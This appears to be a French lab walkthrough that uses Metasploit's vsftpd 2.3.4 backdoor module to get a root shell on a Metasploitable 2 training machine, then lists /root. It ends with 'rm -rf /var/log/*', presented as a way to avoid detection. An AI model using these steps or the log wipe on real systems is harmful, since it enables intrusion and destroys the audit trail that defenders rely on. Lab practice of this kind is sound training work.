



# Pentest sur la machine Metasploit 2

## Exploitation de vsftpd 2.3.4

Sur la Kali Linux, vérifier que le service FTP est actif en effectuant une connexion : 
```bash
ftp 10.10.0.200
```

### Lancement de Metasploit

```bash
sudo msfconsole
```

<p align="center">
    
</p>

### Chargement et configuration du module d'exploitation

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

```bash
set RHOSTS 10.10.0.200
set RPORT 21
```

```bash
run
```
<p align="center">
    
</p>

### Vérifications post-exploit

Pour vérifier si cela a réussi (whoami doit renvoyer root) : 

```bash
whoami
```

Lister les fichiers sensibles : 

```bash
ls /root
```

<p align="center">
    
</p>

Eviter que les activités de pentest soient détectées : 

```bash
rm -rf /var/log/*
```